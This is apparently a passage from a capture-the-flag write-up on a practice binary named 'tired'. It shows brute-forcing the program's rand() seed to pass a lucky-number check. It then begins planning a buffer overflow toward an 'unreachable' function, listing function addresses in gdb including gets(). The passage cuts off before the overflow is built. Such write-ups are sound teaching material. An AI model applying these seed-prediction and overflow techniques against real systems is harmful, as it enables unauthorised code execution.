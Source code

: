 ```c
}
```

Running this script, we eventually settle on the seed 5703817 after about 10 seconds. Testing this on the tired script, we get:

```term
$ ./tired
The AMAZING 'What Should I Do Generator', for tired people who don't want to think what they should be doing.

It's Mon Apr 11 06:11:32 2022
What should I do?
6
Can't plant a tree here, but I'll let you plant a different type of seed
What is your lucky number?
5703817

It's Mon Apr 11 06:11:39 2022
What should I do?
7
Lucky number 6!
Uhh... Okay, let's hear your 'great' idea... :/

```

In other words, it worked! Now it's also completely possible that our own brute force script uses a slightly different `rand()` library implementation than the one used in `./tired`, meaning that the seed is different. If that were the case, then we would probably have had to use pwntools to interact with the script itself, and manually enter in seeds until we eventually pass the check. I imagine this would be a bit slower though, due to the extra overhead of connecting to the process and printing out all the flavour text.

Anyway, now all we need to do is set up our buffer overflow. First we need the address of `unreachable()` so first what we'll do is we'll use gdb to check the function locations. Running `info functions()` gives us:

```term
$ gdb ./tired
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./tired...
(No debugging symbols found in ./tired)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  setbuf@plt
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  getchar@plt
0x08049070  time@plt
```